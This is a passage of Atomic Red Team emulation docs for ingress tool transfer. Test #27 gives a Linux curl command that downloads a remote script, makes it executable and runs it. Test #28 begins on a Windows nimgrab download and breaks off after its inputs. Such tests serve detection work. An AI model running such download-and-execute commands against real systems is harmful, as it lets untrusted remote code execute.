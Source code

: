 


<br/>
<br/>

## Atomic Test #27 - Linux Download File and Run
Utilize linux Curl to download a remote file, chmod +x it and run it.

**Supported Platforms:** Linux


**auto_generated_guid:** bdc373c5-e9cf-4563-8a7b-a9ba720a90f3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_url | url of remote payload | string | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1105/src/atomic.sh|
| payload_name | payload name | string | atomic.sh|


#### Attack Commands: Run with `sh`! 


```sh
curl -sO #{remote_url}; chmod +x #{payload_name} | bash #{payload_name}
```

#### Cleanup Commands:
```sh
rm #{payload_name}
```





<br/>
<br/>

## Atomic Test #28 - Nimgrab - Transfer Files
Use nimgrab.exe to download a file from the web.

**Supported Platforms:** Windows


**auto_generated_guid:** b1729c57-9384-4d1c-9b99-9b220afb384e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_file | URL of file to copy | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt|
| destination_path | Destination path to file | path | $env:TEMP&#92;Atomic-license.txt|
